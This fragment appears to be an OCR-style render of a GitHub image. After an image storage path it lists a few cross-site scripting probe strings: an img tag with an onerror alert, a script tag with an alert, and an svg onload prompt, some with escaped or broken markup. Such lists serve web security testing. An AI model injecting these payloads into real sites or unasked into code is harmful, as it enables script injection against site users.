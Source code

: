 # &lt;img src=x onerror=alert(1)

"&lt;script>alert('test')<%2Fscript>"
`<a></a>`
&lt;img/src=x/on-error="alert(1)</script>

"><svg/onload=prompt(0)>
